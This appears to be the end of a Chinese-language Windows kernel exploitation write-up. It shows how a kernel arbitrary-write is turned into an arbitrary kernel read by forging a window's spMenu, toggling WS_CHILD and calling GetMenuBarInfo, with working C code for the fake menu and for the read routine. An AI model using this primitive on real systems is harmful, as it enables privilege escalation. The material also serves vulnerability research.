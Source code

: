 
从这个过程可以看到，当调用 SetWindowLong 传入的参数 nIndex = -12，且dwStyle 应带有 WS_CHILD 属性时，就可以修改该窗口的 ptagWnd→ptagWndk→spMenu 为 传入的参数 dwNewLong。

因此当获得任意地址写权限后，整个操作流程如下：

- 创建窗口并获得窗口句柄 hWnd 以及 tagWnd→tagWndk

- 利用任意地址写，修改窗口 tagWnd→tagWndk→dwStyle 包含 WS_CHILD 属性

- 构造伪造的 spMenu

```C
    g_pMyMenu = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0xA0); // 在进程堆首地址新建一块 0xA0 大小的内存空间，为 g_pMyMenu
    *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x98) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x20);    // spMenu->spMenuk
    **(ULONG_PTR**)((PBYTE)g_pMyMenu + 0x98) = g_pMyMenu;   // spMenuk->pSelf
    *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x200);   // spMenu->unknow
    *(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58) = (ULONG_PTR)g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, 0x8); //spMenu->rgItems
    *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x28) + 0x2C) = 1; // spMenu->unkonow->cItems==1
    *(DWORD*)((PBYTE)g_pMyMenu + 0x40) = 1; // check
    *(DWORD*)((PBYTE)g_pMyMenu + 0x44) = 2; // check
    *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = 0x4141414141414141; //rgItems->unknown，用到的时候再初始化 
```


- 利用 SetWindowLongPtr 修改窗口的 spMenu，并获得返回的原 spMenu_orgin

- 利用任意地址写，修改窗口 tagWnd→tagWndk→dwStyle 不包含 WS_CHILD 属性

- 调用 GetMenuBarInfo 实现任意地址读

```C
void ReadKernelMemoryQQWORD(ULONG_PTR pAddress, ULONG_PTR &ululOutVal1, ULONG_PTR &ululOutVal2)
{
    MENUBARINFO mbi = { 0 };
    mbi.cbSize = sizeof(MENUBARINFO);

    RECT Rect = { 0 };
    GetWindowRect(g_hWnd[1], &Rect); // 获取窗口 1 的 RECT 信息，用于计算读出的真实值

    *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = pAddress - 0x40; // rgItems->unknown
    GetMenuBarInfo(g_hWnd[1], -3, 1, &mbi);

    BYTE pbKernelValue[16] = { 0 };
    *(DWORD*)(pbKernelValue) = mbi.rcBar.left - Rect.left;  // 减去 Rect.left，创建窗口时，该值被指定为 0
    *(DWORD*)(pbKernelValue + 4) = mbi.rcBar.top - Rect.top;    // 减去 Rect.top，创建窗口时，该值被指定为 0
    *(DWORD*)(pbKernelValue + 8) = mbi.rcBar.right - mbi.rcBar.left;
    *(DWORD*)(pbKernelValue + 0xc) = mbi.rcBar.bottom - mbi.rcBar.top;

    // 读取
    ululOutVal1 = *(ULONG_PTR*)(pbKernelValue);
    ululOutVal2 = *(ULONG_PTR*)(pbKernelValue + 8);
}
```



## 0x03 参考链接

[https://www.anquanke.com/post/id/241804](https://www.anquanke.com/post/id/241804#h3-12)



